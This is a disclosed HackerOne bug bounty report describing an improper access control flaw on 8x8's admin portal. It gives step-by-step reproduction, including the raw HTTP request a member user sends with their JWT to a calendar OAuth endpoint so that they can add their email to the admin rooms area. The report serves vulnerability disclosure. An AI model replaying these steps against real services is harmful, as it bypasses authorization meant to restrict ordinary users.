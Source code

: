 # admin.8x8.vc: Member users with no permission can integrate email to connect calendar via GET /meet-external/spot-roomkeeper/v1/calendar/auth/init?..

## Report Details
- **Report ID**: 1486310
- **URL**: https://hackerone.com/reports/1486310
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-02-20T06:51:49.026Z
- **Disclosed**: 2023-02-15T06:35:41.593Z

## Reporter
- **Username**: emperor
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: 8x8-bounty

## Vulnerability Information
Dear Team,

Greetings!!!

I have observed an Improper access control Issue. Member users do not have permission to rooms area of the admin section. But member users can exploit this via GET /meet-external/spot-roomkeeper/v1/calendar/auth/init?successRedirectUrl=https%3A%2F%2Fadmin.8x8.vc%2F%23%2Frooms%2Fadd HTTP/2

Steps to reproduce
**Step1**: Member users do not have access to the room's area.
Use {F1625870}

**Step2**: Admin users can add their email to sync calendars from this area.
Use {F1625869}

**Step3**: From member user's JWT send a request to below endpoint
Use ██████

```
GET /meet-external/spot-roomkeeper/v1/calendar/auth/init?successRedirectUrl=https%3A%2F%2Fadmin.8x8.vc%2F%23%2Frooms%2Fadd HTTP/2
Host: admin.8x8.vc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://admin.8x8.vc/
Content-Type: application/json
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Authorization: <Member user's JWT>
```

**Step4**: You will receive the Link as below from the above endpoint: 
```
{"url":"https://app.cronofy.com/oauth/authorize?response_type=code&client_id=M0wBDPDXk6EQLaGCqp-pTN_VGt7_AtM9&redirect_uri=https://api-vo.jitsi.net/rosy/sso/cronofy/callback&scope=read_only&delegated_scope=read_only&state=███████&avoid_linking=true"}
```

**Step5**: Now use this link and complete the OAuth sign up. (There is no validation and the application will allow you to add your email)
Use {F1625872}

**Step6**: Member user successfully added his/her email into admin's room area
Use ███

Best regards,
Emperor

## Impact

- Member users with no permission can integrate email to connect calendar

## Attachments
- POC_2_Admin_users_can_add_thier_email_to_sync_calenders_from_this_area.png
- POC_1_Member_user_do_not_have_access_to_rooms_area.png
- POC_4_From_here_member_use_can_link_his_gmail.png
